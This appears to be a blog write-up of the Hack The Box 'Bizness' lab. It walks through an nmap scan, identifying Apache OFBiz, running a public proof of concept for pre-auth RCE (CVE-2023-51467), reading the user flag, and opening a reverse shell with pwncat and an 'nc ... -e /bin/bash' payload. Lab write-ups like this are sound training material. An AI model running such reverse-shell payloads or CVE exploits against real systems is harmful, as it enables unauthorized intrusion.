 ```yaml
---
layout: post
title: Bizness HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux]
image:
  path: /images/htb/easy/bizness/icon.png
---
```


Another easy linux box post CTF, let's get cracking!

**Machine created by:** [C4rm3l0](https://app.hackthebox.com/users/458049)

## Recon
I start off my recon by doing a portscan of the IP.

```
$ sudo nmap 10.129.255.102 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-08 18:45 AEDT
Nmap scan report for 10.129.255.102
Host is up (0.31s latency).
Not shown: 2497 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We can see 3 open ports, mainly of interest is HTTP.

I edit my `/etc/hosts` to make a new entry:

```
10.129.255.102 bizness.htb
```

After that I visit [bizness.htb](https://bizness.htb) and see this:

![Front Page](/images/htb/easy/bizness/frontpage.png)

Nothing of particular interest...

`dirstalk` gives 0 results, maybe there's subdomains?

No subdomains from scanning with FFuF, until I notice something in the page footer: `Powered by Apache OFBiz`

Searching for `Apache OFBiz CVE` yields [CVE-2023-50968 (SSRF)](https://nvd.nist.gov/vuln/detail/CVE-2023-50968) and [CVE-2023-51467 (Pre-Auth RCE)](https://nvd.nist.gov/vuln/detail/CVE-2023-51467).

Using a [PoC of the Pre-Auth RCE](https://github.com/JaneMandy/CVE-2023-51467-Exploit/releases/tag/Apache-Ofbiz) and then used `whoami` to find myself as `ofbiz`, and then using `cat /home/ofbiz/user.txt` to get the user flag.

User Flag: <mark>eff96303c752d6ac896258dd16aa422e</mark>

I setup a listener for a reverse shell:

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

Using the payload `nc 10.10.***.*** 4444 -e /bin/bash` with the `print ln to echo` mode triggered the reverse shell!

```
[19:05:59] 10.129.255.102:58820: normalizing shell path
[19:06:03] 10.129.255.102:58820: registered new host w/ db
[19:06:08] listener: 10.10.***.***:4444: linux session from 10.129.255.102:58820
           established
```





![Success](/images/htb/easy/bizness/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).